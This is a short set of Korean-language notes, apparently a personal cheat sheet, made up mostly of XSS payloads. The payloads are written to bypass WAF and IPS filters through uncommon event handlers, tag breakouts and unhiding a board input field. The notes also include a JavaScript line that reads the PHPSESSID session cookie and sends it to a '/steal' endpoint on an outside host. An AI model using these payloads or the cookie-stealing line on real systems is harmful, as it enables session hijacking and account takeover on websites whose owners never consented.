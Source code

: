 # xss 페이로드
"><svg/onwheel=alert'1'> 
(=onload 등 흔한 이벤트가 WAF, IPS에 필터링 되어 있을 때 우회)

aa"><onpointover="alert(1)"><input%20types="hidden"%20value=" 
(태그 탈출 후 img ,iframe등이 필터링되어 있을 때 우회)

<div class="~~~ -hidden"> 태그에서 hidden 삭제 후 활성화된 창에서 입력
(실제 우회 당시 게시판 내 링크 삽입 시 입력되는 창이 활성화되었음)

# CORS 정책 우회
;const img=new Image();img.src='http://192.168.0.2:5000/steal?PHPSESSID='+document.cookie.match(/PHPSESSID=([^;]+)/)[1];//'

